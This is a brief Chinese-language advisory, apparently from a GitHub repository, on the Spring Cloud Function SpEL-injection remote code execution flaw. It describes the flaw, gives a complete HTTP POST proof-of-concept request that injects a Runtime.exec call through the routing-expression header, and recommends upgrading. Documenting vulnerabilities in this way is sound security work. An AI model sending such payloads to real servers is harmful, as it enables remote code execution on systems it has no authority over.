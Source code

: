 ### 一 漏洞描述
Spring Cloud Function 是基于Spring Boot 的函数计算框架（FaaS），支持基于SpEL的函数式动态路由。  
在特定配置下，3 <= 版本 <= 3.2.2（ commit dc5128b 之前）存在SpEL表达式执行导致的RCE。  
Spring Cloud 中的 serveless框架 Spring Cloud Function 中的 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成Spel表达式注入

### 二 漏洞利用
POST /functionRouter HTTP/1.1
Host:127.0.0.1:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
Content-Type:application/x-www-form-urlencoded
Content-Length: 3

xxx

### 三 漏洞修复
升级

> 参考链接
> https://blog.csdn.net/Trouvailless/article/details/124481480
> https://blog.csdn.net/weixin_45794666/article/details/123963645

